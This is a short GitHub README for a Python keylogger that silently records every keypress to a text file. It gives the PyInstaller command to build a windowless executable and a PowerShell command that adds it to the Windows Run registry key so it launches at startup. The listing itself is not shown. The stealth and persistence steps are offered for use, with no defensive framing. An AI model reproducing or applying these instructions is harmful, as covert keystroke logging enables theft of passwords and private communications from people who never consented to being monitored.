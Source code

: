 # 💻Basic-KeyLogger

It's a basic KeyLogger in Python !

The PynPut library is needed but installed automatically at the launch of the KeyLogger with PIP.

He listen silently each key pressed in background and save logs in a TEXT file nammed "keylog.txt". Special Key are saved in this format : ```[Key.Esc]```

If you want to do a program on startup, you need to do an executable with the main script with ```PyInstaller```
To install PyInstaler : ```py -m pip install pyinstaller```
To convert in .EXE file : ```pyinstaller --noconsole main.py```

Now, you can add a key in the register key for do a program on startup with PowerShell : ```New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "main.exe" -Value "C:\path\to\the\main.exe" -PropertyType String -Force```


🛠 If you need help, you can contact me on [X (Twiter)](https://x.com.Nudryk) or on Discord : Cliik93200






